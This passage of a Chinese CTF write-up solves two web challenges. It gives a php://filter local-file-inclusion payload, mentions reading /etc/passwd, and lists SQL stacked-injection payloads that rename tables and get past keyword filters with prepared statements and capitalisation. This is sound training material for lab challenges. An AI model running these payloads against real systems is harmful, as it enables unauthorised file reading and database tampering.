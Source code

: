 {{% /spoiler %}}

{{% spoiler "[ACTF2020 新生赛]Include  |  LFI" %}}

首页提示/?file=flag.php，文件包含点；尝试/etc/passwd，成功，/flag失败，尝试php伪协议

```
/?file=php://filter/convert.base64-encode/resource=flag.php
```

{{% /spoiler %}}

{{% spoiler "[强网杯 2019]随便注  |  sqli 堆叠注入" %}}

```
1'
1' or '1
1' union select database()#
```

得到过滤条件

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

使用堆叠注入

```
1';show tables;	# 两个表 1919810931114514, words
1';show columns from `1919810931114514`;	# 含flag列 但只回显2列
1';show columns from `words`;	# 回显3列id+data 都是空的
```

把`1919810931114514`表改名为`words`，flag改为id，即可回显对应的data

```
1';alter table words rename to amiz;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
1' or '1	# 得到flag
```

————或者使用`set`&`prepare from`&`execute`的方式来堆叠

```
1';set @xx=concat('se','lect * from `1919810931114514`;');prepare x from @xx;execute x;#
```

回显过滤条件

```
strstr($inject, "set") && strstr($inject, "prepare")
```

用大写绕过

```
1';Set @xx=concat('se','lect * from `1919810931114514`;');Prepare x from @xx;execute x;#
```

{{% /spoiler %}}

{{% spoiler "[SUCTF 2019]EasySQL  |  sqli 堆叠注入" %}}

